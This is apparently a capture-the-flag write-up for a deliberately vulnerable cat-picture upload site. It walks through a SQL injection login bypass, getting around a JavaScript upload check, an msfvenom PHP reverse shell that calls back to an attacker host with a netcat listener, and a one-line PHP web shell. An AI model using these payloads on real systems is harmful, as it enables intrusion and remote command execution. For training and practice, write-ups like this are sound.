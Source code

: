 ## kitty exchange

### Tags

Broken Access Control,  Injection, Security Misconfiguration

### Difficulty and Points

easy;

### Description

The cat lady in the neighborhood develops a website to exchange picz of her precious pets. She accidentally opend her test environment to the public. Garfilds portraits are secure though, she says.

### Hints (and price in percent of possible points)

1. What web pages can you access? (10 %)
2. Is the login securely implemented? (15 %)
3. You can only upload images! Do you? (25 %)

### Solution tl;dr

- Look which pages are accessible. Hint: robots.txt -> index.php.bak -> login.php
- User: `asdf' or 1=1--`
- Circumvent JavaScript mime type check
- Upload a .php file, like one created using:
  `msfvenom -p php/reverse_php LHOST=IP LPORT=PORT -f raw -o phpreverseshell.php`
  `msfvenom -p php/reverse_php LHOST=192.168.42.181 LPORT=4444 -f raw -o phpreverseshell.php`
- `nc -l -p 4444`
- `cat /DS-*`

### Writeup

- You are provided with an IP <IP> to the web app.
- At a first glace the web app isn't functional yet.
- Let's try to find some hidden pages the developer already uploaded, but didn't make public.
- We can automate the search using nikto or dirb, but lets poke around manually for now.
- A great way to get an overview of a website is to check <IP>/sitemap.xml or <IP>/robots.txt.
- No luck with the former, but we have a hit with the later.
- This gives us the hint that a crawler shouldn't cache *.bak files. Maybe the developer uses this extention for versioning?
- Let's try the most obvious <IP>/index.html.bak. No luck. Now, <IP>/index.php.bak. Jackpot!
- It wants us to redirect to login.php. Now we're talkin'!
- Let's check if the login is vulnerable to sql injections by typing in random shit as username and password each followed by a single quote char.
- Whoops. Something went wrong there.
- Either we get out the big guns now, i.e. sqlmap. Oooorrrr, we play a bit around.
- Let's try the oldest trick in the book: `asdf' or 1=1--` as user and random shit as password. And - BAAAMMm - we are in. Seems the cat lady wasn't the smartest in coding class.
- Finally, we can upload our favorite kitty pic. But wait... can't we upload some php as well?
- Nope. The upload button magically dissapears. Mhhh, was that a rechest to the server already??? I don't think so!
- Let's check the source for JavaScript.
- Using my favorite browser, Firefox - obviously! -, pressing strl+shift+i opens the developer tools.
- Searching for "IMAGE FILES ONLY" in the source reveals, the button.style.visibility is set to "hidden". But we don't want that. Let's change it to "visible". Et voilà! We can upload .php files now.
### 1.
- I'm too lazy to write php myself... so I just generate my webshell using Metasploits msfvenom:
    - Syntax: `msfvenom -p php/reverse_php LHOST=IP LPORT=PORT -f raw -o phpreverseshell.php`
    - Note: I own the domain example.org and I have a port forwarding set up to my local machine on tcp 4444.
    - Which makes the cmd: `msfvenom -p php/reverse_php LHOST=example.org LPORT=4444 -f raw -o phpreverseshell.php`
- Opening a listener with netcat ... `nc -l -p 4444`
- ... uploading phpreverseshell.php ...
- ... I get my secure kitty link <IP>/upload/0ffc7b...c9b6d.php
- ... and opening it in the browser, gives me my hoped for shell.
- Note: Using a reverse shell circumvents server side firewalling. However, it seems there is none. So, the same shit flies using a bind shell.
- Let's look around a bit, shell we? (pun intended)
    - `whoami` ... so far so expected.
    - `ls -al /` ... wait... what??? What do we have here? Can we read the token already? Yes, we can!
    - `cat /DS-token`
### 2.
- I don't need a reverse shell! I'll just use my trusty browser and the developer tools.
  - After uploading an example image I found out that I can just resend the packet with different Content!
  - So this time I'm just gonna change "filename=example.png" to "filename=example.php", and "Content-Type: image/png" with "Content-Type: text/html" 
  - And replacing the Image data with `<?php echo shell_exec($_GET['cmd']); ?>`
- Nice! When following the link of the Image we can now put a Querystring behind in the browser to execute commands!
- For example `filename.php?cmd=ls`
- Let's look around a bit, shell we? (pun intended)
    - `whoami` ... so far so expected.
    - `ls -al /` ... wait... what??? What do we have here? Can we read the token already? Yes, we can!
    - `cat /DS-token`
